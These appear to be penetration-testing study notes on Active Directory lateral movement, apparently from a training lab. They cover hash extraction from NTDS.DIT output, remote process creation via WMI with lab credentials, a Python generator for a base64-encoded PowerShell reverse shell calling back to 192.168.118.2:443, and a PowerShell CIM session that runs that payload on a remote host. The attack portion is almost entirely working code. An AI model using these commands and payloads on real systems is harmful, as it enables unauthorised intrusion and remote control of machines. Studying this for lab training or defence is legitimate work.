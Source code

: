 we want the last part after NTDS.DIT secrets, before the three colons -> 1693c6cefafffc7af11ef34d1c788f47

If we don't have RDP access from the start but we do have a login username and password, we can do some roasting to obtain other passwords, then try RDP

## Lateral Movement in AD

### WMI and WinRM
In order to create a process on the remote target via WMI, we need credentials of a member of the Administrators local group, which can also be a domain user.
UAC restrictions do not apply to domain user.

launch a calculator instance example
```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

can launch a reverse shell with base 64 encoding
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

in powershell
```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
